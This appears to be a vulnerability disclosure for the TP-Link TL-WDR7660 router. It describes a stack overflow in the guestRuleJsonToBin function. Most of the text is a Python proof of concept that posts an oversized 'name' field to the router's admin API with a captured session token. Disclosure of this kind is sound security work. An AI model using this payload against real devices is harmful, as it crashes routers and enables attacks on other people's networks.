 **2.A stack overflow vulnerability exists in TL-WDR7660 version: TL-WDR7660 ver1.0**
The guestRuleJsonToBin function is not checked when handling a copy of the important parameter name.It can result in the stack to overflow


**Exploit a vulnerability in the guestRuleJsonToBin function by sending a carefully constructed HTTP request**
```
url = "http://192.168.1.1/stok=B*qqlvYTn(bVsXtuytGm%2B0%5EP3nOE0dF~/ds " #COOKIE需要对应捕获
# 请求头
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# 请求体--漏洞利用json
data = {"guest_network":{"name":"a"*0x100000,"table":"guest_rule_2g","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"name","start_time":"01%3A00","end_time":"02%3A00"}},"method":"add"}# 发送POST请求
response = requests.post(url, headers=headers, json=data)
# 输出响应内容
print(response.text)
```

**The following figure shows the result**
